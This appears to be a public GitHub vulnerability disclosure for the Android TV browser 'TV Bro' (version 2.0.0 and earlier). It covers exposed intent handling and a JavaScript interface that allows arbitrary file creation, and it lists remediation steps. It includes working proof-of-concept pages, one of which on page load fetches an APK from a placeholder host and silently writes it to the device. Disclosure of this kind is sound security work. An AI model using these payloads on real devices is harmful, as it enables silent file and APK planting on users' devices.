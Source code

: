 
---
![BOX](https://github.com/actuator/com.phlox.tvwebbrowser/blob/main/box.png)

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: Arbitrary File Creation & Remote JavaScript Code Execution in WebView

**Severity**: 🔴 Critical

### Details:

The `com.phlox.tvwebbrowser` application mishandles external intents through WebView, allowing for both Arbitrary Code Execution (ACE) and, more critically, arbitrary file creation and downloads using specially crafted URIs.

The arbitrary file creation and download risk arises from the ability to generate Base64 encoded strings representing any file content. An attacker can craft these strings and instruct the WebView to decode and save them as files on the user's device without their consent.

**Proof of Concept**:

![Proof of Concept](https://github.com/actuator/com.phlox.tvwebbrowser/blob/main/TVBro.gif)

```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("http://ampulicidae.com")); // any URL
startActivity(intent);
```

**CWE Reference**:
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html): Improper Control of Generation of Code ('Code Injection')
- [CWE-434](https://cwe.mitre.org/data/definitions/434.html): Unrestricted Upload of File with Dangerous Type 

### Remediation Steps:
1. Restrict External Intent Handling: In `AndroidManifest.xml`, set the `exported` attribute for the affected activity to `false`.
2. URI Sanitization: Implement strict validation and sanitation for URIs.
3. Validate Base64 Data: Before allowing any Base64 decoding in WebView, validate the content to ensure it does not contain malicious data.

### Addendum:

The `com.phlox.tvwebbrowser` application exposes a JavaScript interface, TVBro, to its WebView component. This poses several security risks:

- **Resource Exhaustion**: Creating extremely large files using `takeBlobDownloadData` method.
- **Arbitrary File Creation/Downloads**: The most critical vulnerability. Files with any content can be created and downloaded without user consent, just by encoding malicious data in Base64.

**Proof of Concepts**:

```html
<!-- Simple HTML code to demonstrate vulnerability -->
<!DOCTYPE html>
<html lang="en">
<head>
    <title>TV Bro Exploit Demo</title>
</head>
<body>
    <button onclick="triggerExploit()">Trigger Exploit</button>
    <div id="status"></div>
    <script>
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }
        function triggerExploit() {
            const base64Data = generateRandomBase64String(500000);
            const fileName = 'exploit.txt';
            const url = 'http://ampulicidae.com'; 
            const mimeType = 'text/plain';
            if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
                document.getElementById('status').innerText = "Invoking...";
                window.TVBro.takeBlobDownloadData(base64Data, fileName, url, mimeType);
            } else {
                document.getElementById('status').innerText = "Interface not found.";
            }
        }
    </script>
</body>
</html>
```

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exploit PoC</title>
</head>

<body>

<script>
    // Upon page load, check if the TVBro interface is available and trigger download.
    window.onload = function() {
        const apkURL = 'https://yourdomain.com/path/to/yourfile.apk';
        const mimeType = 'application/vnd.android.package-archive';

        if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
            // Fetch the APK file as a blob
            fetch(apkURL).then(response => response.blob()).then(blob => {
                const reader = new FileReader();
                reader.readAsDataURL(blob);
                reader.onloadend = function() {
                    const base64data = reader.result.split(',')[1];
                    window.TVBro.takeBlobDownloadData(base64data, 'yourfile.apk', apkURL, mimeType);
                }
            });
        }
    }
</script>

</body>

</html>

```
---


